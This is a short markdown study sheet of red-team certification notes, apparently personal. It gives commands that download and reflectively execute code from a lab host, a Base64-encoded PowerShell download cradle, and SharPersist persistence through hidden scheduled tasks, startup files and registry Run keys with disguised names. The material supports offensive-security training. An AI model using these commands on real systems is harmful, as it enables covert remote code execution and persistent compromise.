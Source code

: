 ```yaml
---
title: CRTO Notes
date: 2021-08-04 21:00:00 0000
categories: [RED_TEAM, CRTO]
tags: [C# CRTO REDTEAMING]
---
```


```csharp
[system.reflection.assembly]::LoadFile("file")
 [namespace.class]::Main()
```

Binary reflective loading

```csharp
$data = (New-Object System.Net.WebClient).DownloadData('http://10.10.10.10/binary.exe')
$assem = [System.Reflection.Assembly]::Load($data)
[binary.Program]::Main("".Split())
```



Presistance 

-Task Scheduler

Using SharpPresist

```powershell
$str = 'IEX ((new-object net.webclient).downloadstring("http://10.10.10.10/payload.ps1"))'
[System.Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($str))
```
The above snippet will produce a Base64 string which will be supplied in the snippet below:
```powershell
.\SharPersist.exe -t schtask -c "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -a "-nop -w hidden -enc BASE64 ENCODED STRING HERE" -n "Updater" -m add -o hourly
```


   -t --> the desired persistence technique.
   -c --> command to execute.
   -a --> any arguments for that command.
   -n --> the name of the task.
   -m --> to add the task (you can also remove, check and list).
   -o --> the task frequency.
   
 -Startup Folder
 
 ```powershell
 .\SharPersist.exe -t startupfolder -c "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -a "-nop -w hidden -enc BASE64_HERE" -f "UserEnvSetup" -m add
 ```
 
   -f --> the filename to save as.


-Registry AutoRun

```powershell
./SharPersist.exe -t reg -c "C:\ProgramData\Updater.exe" -a "/q /n" -k "hkcurun" -v "Updater" -m add

Output:
[*] INFO: Adding registry persistence
[*] INFO: Command: C:\ProgramData\Updater.exe
[*] INFO: Command Args: /q /n
[*] INFO: Registry Key: HKCU\Software\Microsoft\Windows\CurrentVersion\Run
[*] INFO: Registry Value: Updater
[*] INFO: Option: 
[+] SUCCESS: Registry persistence added
```


   -k --> the registry key to modify.
   -v --> the name of the registry key to create.


